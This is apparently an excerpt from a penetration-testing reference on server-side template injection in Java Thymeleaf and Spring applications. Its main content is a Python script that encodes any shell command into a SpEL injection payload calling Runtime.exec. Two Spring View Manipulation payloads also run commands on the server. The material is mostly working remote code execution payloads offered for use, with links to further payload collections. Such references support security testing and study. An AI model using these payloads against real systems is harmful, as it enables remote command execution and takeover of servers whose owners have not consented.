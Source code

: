 - Custom Script for payload generation
 



```
#!/usr/bin/python3

## Written By Zeyad Abulaban (zAbuQasem)
# Usage: python3 gen.py "id"

from sys import argv

cmd = list(argv[1].strip())
print("Payload: ", cmd , end="\n\n")
converted = [ord(c) for c in cmd]
base_payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec'
end_payload = '.getInputStream())}' 

count = 1
for i in converted:
 if count == 1:
 base_payload += f"(T(java.lang.Character).toString({i}).concat"
 count += 1
 elif count == len(converted):
 base_payload += f"(T(java.lang.Character).toString({i})))"
 else:
 base_payload += f"(T(java.lang.Character).toString({i})).concat"
 count += 1

print(base_payload + end_payload)
```

**More Information**

- [Thymleaf SSTI](https://javamana.com/2021/11/20211121071046977B.html)
 
- [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)

Spring View Manipulation (Java)



```
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```

- [https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)
 